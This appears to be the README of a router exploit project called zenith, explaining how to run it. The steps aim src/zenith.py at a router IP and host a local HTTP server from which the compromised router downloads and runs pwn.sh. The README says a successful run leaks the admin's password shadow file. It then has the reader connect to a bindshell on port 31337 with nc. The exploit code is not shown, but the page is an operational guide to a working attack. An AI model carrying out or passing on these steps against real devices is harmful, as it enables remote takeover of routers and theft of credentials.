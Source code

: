 To run the exploit, open three different shells (see [pics/zenith.gif](pics/zenith.gif)):
1. **One shell to throw the exploit**.
    - Run [src/zenith.py](src/zenith.py) with `--target <IP of router>` and `--local <IP of where it's thrown from>`.
2. **One shell to start an HTTP server**.
    - In [src](src/), run `python3 -m http.server`. When successful, the exploit will make an HTTP request to this server in order to download [pwn.sh](src/pwn.sh) (that's what the `--local` argument is used).
3. **One shell to connect to the bindshell when the attempt is successful**.
    - Right after receiving the HTTP request leaking the `admin`'s shadow, you can try to connect to the bindshell with `nc <IP of router> 31337 -v`.

![zenith](pics/zenith.gif)

The exploit waits for 1:30 minute before killing itself. There are three ending conditions:
1. It worked and reached out to the HTTP server to grab the `pwn.sh` file, leaked the `admin`'s shadow and is listening on the bindshell.
2. The router crashed and rebooted. All the sockets will time out and will spew the output; at which point you can kill the exploit. This is a failed attempt.
3. The router didn't crash but no HTTP requests were received before the exploit terminated itself. This is a failed attempt.

## Authors
* Axel '[0vercl0k](https://twitter.com/0vercl0k)' Souchet
